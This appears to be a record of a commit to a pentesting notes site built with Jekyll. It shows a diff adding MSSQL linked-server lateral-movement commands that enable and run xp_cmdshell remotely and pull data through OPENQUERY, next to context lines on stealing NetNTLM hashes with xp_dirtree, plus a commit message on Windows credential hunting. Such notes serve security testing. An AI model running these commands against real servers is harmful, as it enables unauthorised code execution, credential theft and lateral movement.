

Before and after one commit to v0idravl/hakiki, a Jekyll site: the page built from recon/service_enumeration.md, in a window 1280 px wide and 900 px high, scrolled down 6241 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
service: MSSQL linked server lateral movement; privesc: Windows credential hunting expansion
MSSQL:
- Linked server enumeration (sp_linkedservers, sys.servers)
- Remote xp_cmdshell via linked server (EXEC ... AT syntax)
- OPENQUERY for data exfiltration via linked server

Windows PrivEsc:
- PSReadLine history: ConsoleHost_history.txt path (contains typed commands/creds)
- IIS ApplicationHost.config credential extraction
- Git repository discovery for leaked credentials

````diff
--- a/recon/service_enumeration.md
+++ b/recon/service_enumeration.md
@@ -290,6 +290,22 @@ EXEC master..xp_dirtree '\\$LHOST\share\file.txt'   # alternate syntax
 ```
 
 > xp_cmdshell = OS command execution. xp_dirtree = steal NetNTLM hash.
+
+**Linked server lateral movement:**
+
+```sql
+-- Enumerate linked servers
+EXEC sp_linkedservers;
+SELECT name, provider FROM sys.servers WHERE is_linked = 1;
+
+-- Query linked server (RCE if sysadmin on remote)
+EXEC ('EXEC sp_configure ''show advanced options'', 1; RECONFIGURE') AT [<linked_server_name>]
+EXEC ('EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE') AT [<linked_server_name>]
+EXEC ('EXEC xp_cmdshell ''whoami''') AT [<linked_server_name>]
+
+-- Data exfil via linked server
+SELECT * FROM OPENQUERY([<linked_server>], 'SELECT name FROM master..sysdatabases')
+```
 
 **Post-compromise: SQL Server error log credential hunting**
 
````
Also changed, not shown: privesc/windows_privesc.md (+11 -0 lines).
